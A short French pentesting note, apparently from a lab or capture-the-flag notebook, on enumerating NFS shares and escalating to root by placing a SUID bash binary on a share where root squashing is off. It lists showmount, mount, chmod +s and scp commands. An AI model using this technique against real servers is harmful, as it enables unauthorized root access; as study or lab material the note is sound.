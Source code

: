 
- Standard Port :  2049

Lister  les  NFS Shares 

```bash
>>> showmount -e [IP]
```

Pour récupérer le share  :

```bash
>>> sudo mount -t nfs IP:/[DIR] /tmp/mount/ -nolock
```

Par défaut sur NFS le root_squashing est activé et empeche les connexion en root directement.

Elevation de droit sur NFS : 

- Telecharger un executable dans le repertoire share qui a été mount 

	- https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
- Le rendre executable et activer le SUID : 
	- sudo chmod +s  [nom du script]
- Executer avec le -p pour activer le SUID et avoir les droits root


Télécharger un script sur une machine nfs via ssh :

- `scp -i key_name username@ip
- :/bin/bash ~/Downloads/bash`

![[nfs outpath exploitation.png]]
